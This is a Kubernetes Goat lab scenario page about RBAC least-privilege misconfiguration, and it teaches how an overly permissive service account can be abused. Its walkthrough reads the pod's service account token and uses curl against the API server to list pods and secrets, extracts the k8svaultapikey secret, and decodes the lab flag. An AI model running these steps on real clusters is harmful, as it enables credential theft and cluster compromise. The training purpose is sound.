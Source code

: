 ```yaml
---
title: ⎈ RBAC least privileges misconfiguration
sidebar_label: Welcome
sidebar_position: 2
description: RBAC misconfiguration leads to privilege escalation to gain Kubernetes cluster compromise - Kubernetes Goat Scenario 🚀
slug: rbac-least-privileges-misconfiguration-in-kubernetes-cluster/welcome
---
```


# ⎈ RBAC least privileges misconfiguration

## 🙌 Overview

In the early days of Kubernetes, there is no such concept as RBAC (role-based access control) and mostly it uses ABAC (attribute-based access control). Now it has superpowers like RBAC to implement the security principle of least privilege. Still, most of the real-world workloads and resources end up having wider privileges than it is intended to have. In this scenario, we will see how simple misconfiguration like this can gain access to secrets, more resources, and information.

![](../images/scenario-diagram-wip.png)

By the end of the scenario, we will understand and learn the following

1. Accessing and talking to the Kubernetes API Server using the REST API
2. Working with different Kubernetes resources and querying them
3. Exploiting the misconfigured/overly permissive permissions to gain access to sensitive information and resources

### ⚡️ The story

We commonly see in the real world where developers and DevOps teams tend to provide extra privileges than required. This provides attackers more control and privileges than they intended to be. In this scenario, you can leverage the service account bound to the pod to provide `webhookapikey` access, but using this attacker can gain control over other secrets and resources.

:::info

To get started with the scenario, navigate to [http://127.0.0.1:1236](http://127.0.0.1:1236)

:::

![Scenario 16 Welcome](../images/sc-16-1.png)

### 🎯 Goal

:::tip

Find the `k8s_goat_flag` flag value by gaining access to the Kubernetes secret `k8svaultapikey` by exploiting the RBAC privileges to complete this scenario.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Not sure where the ServiceAccount in k8s pod? </b></summary>
  <div>
    <div>Simple googling and looking at docs can show that you can get service account details avaiolable in pod at <b>/var/run/secrets/kubernetes.io/serviceaccount/</b> 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Stuck at querying the API Server? </b></summary>
  <div>
    <div>Again look at docs here as well. To save your time, here you go <a href="https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/">Accessing the Kubernetes API from a Pod</a>. Have fun 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

This deployment has a custom `ServiceAccount` mapped with an overly permissive policy/privilege. As an attacker, we can leverage this to gain access to other resources and services.

:::

- By default the Kubernetes stores all the tokens and service accounts information in the default place, navigate to there to find the useful information

```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

```bash
ls -larth
```

![Scenario 16 checking service account](../images/sc-16-2.png)

- Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges

- To point to the internal API server hostname, we can export it from environment variables

```bash
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

- To set the path to the `ServiceAccount` token

```bash
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

- To set the namespace value

```bash
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

- To read the `ServiceAccount` bearer token

```bash
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
````

- To point the `ca.crt` path so that we can use it while querying in the `curl` requests

```bash
export CACERT=${SERVICEACCOUNT}/ca.crt
```

- Now we can explore the Kubernetes API with the token and the constructed queries

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

![Scenario 16 mapping credentials](../images/sc-16-3.png)

- To query the available secrets in the `default` namespace run the following command

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

![Scenario 16 query secrets in default namespace](../images/sc-16-4.png)

- To query the secrets specific to the namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

![Scenario 16 query secrets in specific namespace](../images/sc-16-5.png)

- To query the pods in the specific namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```

![Scenario 16 query pods in specific namespace](../images/sc-16-6.png)

:::tip

From here you can try and leverage all the possible Kubernetes operations. As Kubernetes itself works as an API service to create, and delete pods, etc.

:::

- Get the `k8svaulapikey` value from the secrets

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```

![Scenario 16 get k8svaultapikey](../images/sc-16-7.png)

- We can decode the base64 encoded value using the following command

```bash
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

- Hooray 🥳 , we found an awesome Kubernetes Goat flag

## 🔖 References

- [RBAC Authorization Kubernetes](https://kubernetes.io/docs/reference/access-authn-authz/rbac/)
- [Accessing the Kubernetes API from a Pod](https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/)
